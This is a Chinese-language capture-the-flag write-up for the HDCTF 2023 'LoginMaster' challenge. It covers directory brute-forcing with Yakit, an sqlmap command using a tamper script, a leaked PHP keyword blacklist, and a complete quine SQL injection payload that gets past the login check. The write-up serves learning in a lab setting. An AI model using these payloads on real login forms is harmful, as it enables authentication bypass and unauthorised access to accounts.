

## 基本信息

- 题目名称： [HDCTF 2023]LoginMaster
- 题目链接： https://www.nssctf.cn/problem/3782
- 考点清单： quine注入, unique注入, SQL注入, WAF绕过
- 工具清单： Yakit, sqlmap, mysql, adminer
- payloads： 敏感文件爆破, robots.txt, quine

## 一、看到什么

### 第一轮

**题目关键信息列表**：

1. `登录表单`: 最基本的登录表单，包括用户名和密码输入框。
2. `注册表单`: 纯摆设，无用。
3. `HTTP 响应`: nginx/1.14.2, PHP/5.6.40，无其他线索信息。
4. `页面源代码`: 审计无果，没有任何提示线索信息。

## 二、想到什么解题思路

### 第一轮

1. `登录表单`: SQL 注入, 万能口令
2. `无提示线索`: robots.txt, 敏感文件爆破

## 三、尝试过程和结果记录

### 第一轮

1. SQL 注入，万能口令尝试无果。

```bash
# `-p` 参数 用于指定想要重点测试的参数，提高检测效率以及针对性
# `--proxy` 参数，用 Yakit 代理记录下来所有攻击负载，方便编程实现作为代码模版
# `--tamper` 该参数用于指定 `sqlmap` 的篡改脚本，这些脚本的作用是对发送给目标网站的 payload（攻击载荷、测试数据等）进行一定的变形或者处理，以绕过目标网站可能存在的一些简单的防护机制，比如对特定字符过滤、对常见 SQL 注入语句格式的检测等情况，增加 SQL 注入成功的几率。
sqlmap -u http://node4.anna.nssctf.cn:28077/index.php --data="username=admin&password=testpassword" -p password --proxy socks5://127.0.0.1:8083  --tamper "space2comment.py"
```

2. 目录和敏感文件爆破：使用 Yakit + 内置插件（综合目录扫描与爆破） + 自定义字典文件。



如上图所示，字典越大，扫描结果越多，不可能完全通过人工筛选来找到敏感路径。浏览观察之后可以发现以下重要规律：

- 状态码筛选：404 状态码的基本都是 .php 请求，其他请求即使路径不存在也都是 200 。
- 响应长度筛选：集中在 7.1K 和 169B 两种长度。

由于当前版本 Yakit 不支持按字段排序，所以使用范围筛选功能来进行 `大海捞针` 操作：选择 `响应长度` 一栏，设置长度范围为 170B ~ 7000B 。筛选只剩 2 个请求，其中 1 个响应状态码 400 ，另一个是 200 。


进一步查看响应消息后，确定 `/robots.txt` 是一个重要的线索。

`robots.txt` 内容如下，注释内容为我分析后添加：

```php
function checkSql($s) 
{
    if(preg_match("/regexp|between|in|flag|=|>|<|and|\||right|left|reverse|update|extractvalue|floor|substr|&|;|\\\$|0x|sleep|\ /i",$s)){ // SQL 注入黑名单关键词，需要绕过
        alertMes('hacker', 'index.php');
    }
}
if ($row['password'] === $password) { // 要求输入的密码与数据库中实际取出的密码完全相等，这就意味着不能使用常规的 SQL 注入造成真值逻辑漏洞利用方式
        die($FLAG);
    } else {
    alertMes("wrong password",'index.php');
```

由于 NSSCTF 上的题目在标签里有提到 `quine注入` ，因此直接搜索 `quine注入` 关键词，找到了 [从三道赛题再谈Quine trick 2021-10-14 @安全客](https://www.anquanke.com/post/id/253570) 。其中最关键的一句解释摘录如下：

> 要求的是执行$sql的结果与$password相同，那么除了正常逻辑的密码相同会产生相等，**如果我们的输入与最后的结果相等** ，那么一样可以绕过验证。这种技术就是Quine 。

使用本地的 `SQL Debug` 测试环境，进行 SQL 语句的构造和测试。

```sql
-- 假设服务端的口令校验逻辑 SQL 核心代码如下：
-- 以下代码是正常用户登录口令错误的 SQL 语句
select password from users where user='admin' and password='1';
-- 以下代码是正常用户成功登录的 SQL 语句
select password from users where user='admin' and password='5f4dcc3b5aa765d61d8327deb882cf99';

-- 根据上述 robots.txt 提供的线索，尝试利用 Union 查询构造 SQL 注入
-- 注意空格被过滤了，可以使用/**/来绕过
select password from users where user='admin' and password='Y'union/**/select/**/<要构造字符串>';

-- 此处要构造的字符串就是 Y'union/**/select/**/

-- Quine 的基本形式为： REPLACE('str',编码的间隔符,'str') 
-- Quine 的升级版形式为： REPLACE(REPLACE('str',CHAR(34),CHAR(39)),编码的间隔符,'str')
-- 此处要代入的 'str' 为 Y'union/**/select/**/

-- REPLACE(REPLACE("Y'union/**/select/**/",CHAR(34),CHAR(39)),CHAR(46),"Y'union/**/select/**/")
-- 执行结果为
-- Y'union/**/select/**/

-- Y'union/**/select/**/replace(REPLACE('Y"union/**/select/**/replace(REPLACE(".",char(34),char(39)),char(46),"."),char(34),char(39)),char(46),'Y"union/**/select/**/replace(REPLACE(".",char(34),char(39)),char(46),"."))


select password from users where user='admin' and password='Y'union/**/select/**/replace(REPLACE('Y"union/**/select/**/replace(REPLACE(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'Y"union/**/select/**/replace(REPLACE(".",char(34),char(39)),char(46),".")#')#';
```


将上述构造好的 SQL 语句填入登录表单的 `password` 字段，`username=admin`，即可绕过登录验证，获取到 flag。

## 四、总结与反思

- **解题收获**：在计算机领域，`Quine` 是一种特殊的计算机程序，它以自身的源代码作为输入，并在运行时输出其自身的源代码副本，且不接受任何外部输入。
- **不足之处**：`Quine` 片段的构造比较烧脑，需要对 SQL 语句的构造和理解有一定的基础，需要在 `SQL Debug 环境` 下进行多次测试和验证。
- **改进措施**：多刷几道 `Quine SQL 注入` 相关题目，检验掌握程度。

## 五、本地工具环境配置

### 本地 `SQL Debug 环境配置`

```bash

- mysql debug 环境配置，用于 `SQL 注入` 题目的本地测试

```bash
# 配置 mysql debug 环境
git clone https://github.com/c4pr1c3/ctf-games

cd ctf-games/dvwa && docker-compose up -d

cat README.md
# 提供内置 [adminer.php](https://www.adminer.org/) ，方便查看和管理 dvwa 的数据库。
# 
# 访问 http://<target_ip>:8086/adminer.php ，用户名 app ，密码 vulnerables
```

### Yakit 爆破工具使用

插件仓库的 `综合目录扫描与爆破` 可以在 `检查项目` 里选择 `禁用内置字典` ，然后在 `额外参数` 里通过 `Yakit Payload` 设置 `Yakit Payload` 里定义的字典名称。


### Yakit 字典配置

日常做题过程中，多积累各种 **规模适中** 和 **用途专一** 的字典，方便在爆破过程中使用。


